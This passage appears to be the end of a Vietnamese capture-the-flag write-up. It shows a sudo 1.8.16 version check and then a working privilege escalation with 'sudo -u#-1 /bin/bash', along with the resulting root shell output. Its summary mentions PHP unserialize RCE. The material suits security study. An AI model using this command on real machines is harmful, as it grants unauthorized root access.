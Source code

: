 Không có gì đặc biệt lắm. Tôi thử kiểm tra phiên bản *sudo* 

```python
www-data@ubuntu:/$ sudo -V
Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
www-data@ubuntu:/$
```

Phiên bản này có dính lỗi [Security Bypass](https://www.exploit-db.com/exploits/47502)

```python
www-data@ubuntu:/$ sudo -u#-1 /bin/bash
root@ubuntu:/# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@ubuntu:/# ls /root
root.txt
root@ubuntu:/# 
```

## Tổng kết

Qua bài này, tôi biết thêm về một phương pháp trao đổi khóa, tuy nó đã lỗi thời và có thể giải được bởi những người nghe lén, nhưng nó vẫn được phát triển và có nhiều biến thể an toàn hơn trong truyền thông tin. Ngoài ra, tôi cũng biết thêm một lỗ hổng của PHP với hàm *unserialize*, lợi dụng thiết lập đầu vào không an toàn để thực thi RCE.
